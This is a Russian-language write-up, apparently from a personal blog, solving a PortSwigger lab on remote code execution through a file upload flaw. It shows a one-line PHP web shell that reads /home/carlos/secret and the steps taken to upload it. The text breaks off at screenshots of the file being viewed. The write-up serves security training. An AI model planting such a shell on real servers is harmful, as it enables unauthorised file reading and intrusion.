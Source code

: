 ```yaml
---
title: "Remote code execution via web shell upload"
date: 2025-08-07
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/server-side-vulnerabilities-apprentice/file-upload-apprentice/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload"
classes: wide
---
```


Эта лаба содержит **узявимость в загрузке файлов**.

Для решения лабы нужно загрузить `PHP` скрипт, который выведет содержимое файла `/home/carlos/secret`. У нас есть креды пользователя `wiener:peter`.

```
https://0a580059035e264780154ef8009b001b.web-security-academy.net/ca
```

## Solution

В задаче написано, что нужно загрузить `PHP` скрипт. Я человек простой, вижу — делаю. Создам файл:

*img.php*:

```PHP
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Заходим в лк и загружаем файл.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Remote_code_execution_via_web_shell_upload/1.png){: height="200" .align-center}

Файл загружен:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Remote_code_execution_via_web_shell_upload/2.png){: height="200" .align-center}

Попробую посмотреть его содержимое:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Remote_code_execution_via_web_shell_upload/3.png){: height="200" .align-center}